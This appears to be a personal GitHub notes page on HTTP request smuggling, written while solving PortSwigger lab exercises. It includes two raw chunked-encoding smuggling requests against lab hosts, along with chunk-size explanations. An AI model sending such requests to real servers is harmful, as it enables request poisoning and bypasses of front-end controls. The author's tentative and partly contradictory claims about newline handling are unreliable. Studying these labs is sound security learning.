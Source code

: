 # Mad security findings

This is crazy stuff I found out in the wild. I will put here only the ones, which are the most crazy in my opinion and caused my brain to question reality. Most of those I found out during solving Portswigger’s Web security academy labs or another sandbox.


## Request Smuggling
- Requests with `Transfer-Encoding: chunked` need to have **two(!!!)** additional newlines after ending `0`.
- Chunked requests behave differently when they are multiline or single line! Consider following examples:

```
POST / HTTP/1.1
Host: some-token.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 3

5
GPOST
0


```

You can notice above GPOST is stated 5 - this exactly represents character size of `GPOST`. If you would like to include also following newline, your request would be invalid. Now lets take a look for a multiline example:

```
POST / HTTP/1.1
Host: some-token.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 3

a
GPOST
FOO
0


```

You can notice `a` above `GPOST`. It is hexadecimal representation of 10. But wait... why? Okay.. lets count: `GPOST (5 chars)` + `newline (1 char)` + `FOO (3 chars)` + `newline (1 char)`!!! Lesson to learn: Multiline chunked requests need additional ending newline to be included in your size calculation otherwise request will be invalid!

### Newlines

Beware of newlines - BurpSuite represents them as 2 characters - `\r\n` (a newline with carriage return). As shown above - It looks like sometimes request can use only simple newline without carriage return!!! 

Investigate this...

